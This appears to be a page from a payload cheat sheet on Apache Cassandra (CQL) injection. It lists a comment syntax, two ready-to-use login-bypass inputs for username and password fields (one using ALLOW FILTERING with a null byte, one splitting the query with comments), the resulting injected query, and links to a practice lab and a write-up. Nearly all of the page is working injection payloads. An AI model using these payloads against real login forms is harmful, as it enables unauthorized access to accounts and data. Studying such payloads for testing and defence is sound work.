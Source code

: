 # Cassandra Injection

> Apache Cassandra is a free and open-source distributed wide column store NoSQL database management system

## Cassandra comment

```sql
/* Cassandra Comment */
```

## Cassandra - Login Bypass

### Login Bypass 0

```sql
username: admin' ALLOW FILTERING; %00
password: ANY
```

### Login Bypass 1

```sql
username: admin'/*
password: */and pass>'
```

The injection would look like the following SQL query

```sql
SELECT * FROM users WHERE user = 'admin'/*' AND pass = '*/and pass>'' ALLOW FILTERING;
```

Example from EternalNoob : [https://hack2learn.pw/cassandra/login.php](https://hack2learn.pw/cassandra/login.php)

## References

* [Injection In Apache Cassandra – Part I - Rodolfo - EternalNoobs](https://eternalnoobs.com/injection-in-apache-cassandra-part-i/)